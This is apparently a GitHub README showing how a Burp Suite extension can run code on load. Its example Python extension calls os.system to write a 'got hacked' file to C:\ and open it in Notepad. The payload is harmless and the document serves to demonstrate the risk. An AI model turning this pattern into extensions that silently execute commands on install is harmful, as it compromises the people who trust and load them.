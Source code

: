 # BurpSuite-Extension-inject
burp suite extensions inject Malicious code ( Example )

شرح فيديو 
Watch Video on youtube 
https://youtu.be/drqN1bk8ZlA


Example Code :
   ```sh
   from burp import IBurpExtender 
import os 

class BurpExtender(IBurpExtender):
    def registerExtenderCallbacks(self, callbacks):
     self._callbacks = callbacks
     self._helpers = callbacks.getHelpers()
     callbacks.setExtensionName("Or4nG.M4n | @interestedz")
     print("Or4nG.M4n | @interestedz")
     cmd = 'echo yay!!! i think i got hacked > c:\oh.txt'
     cmd2 = 'notepad.exe c:\oh.txt'
     os.system(cmd)
     os.system(cmd2)
     callbacks.issueAlert("Best Extension Ever | Or4nG.M4n | @interestedz")
   ```
   
   شرح يهمك من 0xhunter
   https://0xhunter.me/read?id=57
   
       <^_^>
 Goodluck
